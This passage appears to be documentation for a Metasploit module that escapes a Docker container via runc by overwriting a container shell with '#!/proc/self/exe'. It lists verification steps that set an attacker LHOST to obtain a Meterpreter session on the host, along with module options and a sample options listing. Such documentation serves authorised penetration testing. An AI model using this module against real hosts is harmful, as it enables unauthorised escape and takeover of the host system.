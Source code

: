 #### shell
The shell binary inside the container (set by the `OVERWRITE` option) will also
be overwritten. However, the module makes a backup prior the overwrite and
restores it automatically. This process is relatively safe, but something can
still go wrong along the way. Again, this will need to be done manually, using
the information displayed during the module execution:
```
cp <path to the shell binary backup> <path to the shell binary>
```

## Verification Steps
1. Install Docker (see [Installation](#installation))
1. Start msfconsole
1. Get a session as root inside a Docker container
1. Do: `use linux/local/docker_runc_escape`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `set session <session nb>`
1. Do: `run`
1. On the host target, run `docker exec -ti <container_id> /bin/sh`
1. You should get a Meterpreter session.
1. Verify you escaped the Docker container
1. Verify `WRITABLEDIR` on the host is empty (cleanup successful)
1. Verify `docker-runc` has been restored by running `docker-runc --version`

## Options

### OVERWRITE

The shell that is going to be overwriten with `#!/proc/self/exe`. This will be
triggered by a user running `docker exec -ti <container_id> <overwritten
shell>`. Default is `/bin/sh`.

### SHELL

The shell the module will use in scripts (must be different than `OVERWRITE`
shell). During the execution, some shell script have to be executed in the
Docker container. Since the main `OVERWRITE` shell has been overwritten,
another shell must be used. Default is `/bin/bash`.

### WRITABLEDIR

A directory where you can write files. Default is `/tmp`.

## Scenarios

## Docker version 18.03.1-ce (build 9ee9f40) on Ubuntu 18.04.5 LTS
```
msf6 exploit(linux/local/docker_runc_escape) > options

Module options (exploit/linux/local/docker_runc_escape):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   OVERWRITE    /bin/sh          yes       Shell to overwrite with /proc/self/exe
   SESSION      1                yes       The session to run this module on.
   SHELL        /bin/bash        yes       Shell to use in exploit script (must be different than OVERWRITE shell)
   WRITABLEDIR  /tmp             yes       A directory where you can write files.


```